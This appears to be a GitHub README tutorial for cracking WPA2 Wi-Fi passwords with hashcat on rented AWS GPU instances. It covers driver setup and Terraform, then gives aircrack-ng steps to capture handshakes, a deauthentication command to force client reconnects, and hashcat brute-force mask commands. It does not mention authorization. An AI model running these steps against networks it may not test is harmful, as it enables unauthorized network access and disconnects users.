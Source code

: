 # AWS & HashCat

A AWS &amp; Hashcat environment for WPA2 Brute force attack

## Introduction

One big question when it comes to breaking passwords by brute force is: How long will it take?

While the password  **112233** would only take 1 second to be discovered through trial and error, consisting of several combinations, a password like **fDb#E!*##12c** would take 4 centuries, according to [Kaspersky Calculator](https://password.kaspersky.com/?/utm_medium=rdr&utm_source=redirector&utm_campaign=old_url). The problem is that it is not enough to have a "Gamer" computer, it will not be enough if the password is a bit more complex, we often have even modest computers.

An alternative is to use **AWS** to accomplish this task, there are very powerful **EC2** instances in which we can enjoy paying for hours of use.

We can use instances of type P3 for example, which contains the following configuration:

Name | GPUs | GPU Mem | vCPU | Mem (GiB) | Cost/hour 
-----|------|---------|------|-----------|----------
p3.2xlarge | 1 | 16 | 4 | 61 | $ 3.06 
p3.8xlarge | 8 | 64 | 32 | 244 | $ 12.24
p3.16xlarge | 8 | 128 | 64 | 488 | $ 24.48
p3dn.24xlarge | 8 | 256 | 96 | 768 | $ 31.218
p4d.24xlarge | 8 | not specified | 96 | 1152 | $ 32.77

You can be able to save up to 70% by using spot instance.

## Prerequisites

To perform this process you must have the following requirements:

* Knowledge of Linux
* Account with AWS
* Be willing to spend

## Configuration

With the pre requisites fulfilled hands down.

### Uploading Instance

1. Select the AMI Debian 10
1. Choose the type, in this example I'll use **p3.2xlarge**
1. Configure the details, storage, security group, key pair, etc.
1. After creating the instance make the connection via SSH

At this point we will do the initial configuration.

### Configuration

Update and upgrade apt

```
sudo apt update && sudo apt upgrade -y
```

Install the packages

```
sudo apt install -y --ignore-missing build-essential tmux htop vim jq unzip lsof git p7zip-full
```

Set the correct timezone

```
ln -sf /usr/share/zoneinfo/America/Sao_Paulo /etc/localtime
```

Create the file **blacklist-nouveau.conf**

```
sudo vim /etc/modprobe.d/blacklist-nouveau.conf
```

Enter the following lines

```
nouveau blacklist
blacklist lbm-nouveau
options nouveau modeset = 0
alias nouveau off
alias lbm-nouveau off
```

Create the file **nouveau-kms.conf**

```
sudo vim /etc/modprobe.d/nouveau-kms.conf
```
Enter the following line

```
options nouveau modeset = 0
```

And then upgrade initramfs

```
sudo update-initramfs -u
```

At this point reboot your server to continue.

Install linux headers
```
sudo apt install -y linux-headers-`uname -r`
```

Download NVIDIA and install

```
cd /tmp/
wget https://us.download.nvidia.com/tesla/470.57.02/NVIDIA-Linux-x86_64-470.57.02.run
sudo /bin/bash NVIDIA-Linux-x86_64-470.57.02.run --ui=none --no-questions --silent -X

```

Download HashCat and install

```
cd /tmp/
wget https://hashcat.net/files/hashcat-6.2.4.7z >/dev/null 2>&1
7za x hashcat-6.2.4.7z >/dev/null 2>&1
mv hashcat-6.2.4 /home/admin/
ln -s /home/admin/hashcat-6.2.4/hashcat.bin /usr/local/bin/hashcat
```

At this point you can put your **.hc22000** files on the server, if you have captured the handshake through **Aircrack-ng** you can convert the file **.cap** to **.hc22000** without much trouble, a very simple alternative is to use a tool called [cap2hashcat](https://hashcat.net/cap2hashcat/) from HashCat itself.

Now just launch the command and wait for the password to be discovered, for more information on usage consult HashCat [Documentation](https://hashcat.net/wiki/).

## Using Aircrack-ng to get the Handshake

Install aircrack-ng
```
sudo apt install aircrack-ng
```

Put the interface into monitoring mode
```
sudo airmon-ng start wlan0
```

If the interface is busy
```
sudo airmon-ng check kill
```

check candidates
```
sudo airodump-ng wlan0mon
```

Once chosen stop it and start capture
```
sudo airodump-ng -c CHANNEL --bssid MAC -w /tmp/wificapfile wlan0mon
```

To make faster the capture, you can force the reauthentication
```
sudo aireplay-ng -0 2 -a MAC -c MAC wlan0mon
```

Little explanation
```
-0 2: number of requests
-a: access point MAC address
-c: client MAC address
```

You will see in the top right corner when the handshake is captured, then stop the capture and convert using **cap2hashcat** tool.

## Terraform project

You must have the following packages
```
aws-cli
terraform
```

Configure the aws credentials
```
aws configure
```

Init Terraform

```
terraform init
```

Apply
```
terraform apply
```

At this point all the environment and spot instance machine will be created, and will be automatically launched the **initial-script.sh** located in scripts folder, once finished reboot the server and run **hashcat.sh** to install nvidia drivers and hashcat.

## How to use Hashcat

There is some example bellow, you can consult the official documentation as well.

Send the file to the server
```
scp -i aws-hcat-prod.pem wificapfile.hc22000 admin@<IP ADDRESS>:/home/admin/
```

Hashcat brute force examples
```
hashcat -m 22000 wificapfile.hc22000 -a 3 ?d?d?d?d?d?d?d?d
hashcat wificapfile.hc22000 -m 22000 -a 3 ?H?H?H?HAA10
```
